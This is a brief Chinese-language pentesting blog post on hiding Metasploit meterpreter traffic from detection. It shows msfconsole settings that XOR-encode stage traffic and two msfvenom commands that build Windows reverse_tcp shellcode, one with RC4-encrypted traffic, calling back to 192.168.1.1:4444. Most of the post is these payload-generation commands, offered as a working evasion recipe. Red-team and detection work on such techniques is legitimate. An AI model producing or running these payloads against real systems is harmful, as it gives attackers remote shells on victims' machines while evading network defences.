 ```yaml
---
title: "Meterpreter 流量免杀"
date: 2019-08-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit','bypass']
categories: ['bypass','内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



对 meterpreter 流量进行编码或加密, 有两种方式.

<!--more-->

指定编码方式, 名称与对 shellcode 的编码器相同.

```
set EnableStageEncoding true
set StageEncoder x86/xor_dynamic
set StageEncodingFallback false
```

生成 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 EnableStageEncoding=true StageEncoder=x86/xor_dynamic StageEncodingFallback=false -f c -o shellcode.c
```

或是直接生成通过 rc4 加密流量的 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.1 LPORT=4444 RC4PASSWORD=exp10it -f c -o shellcode.c
```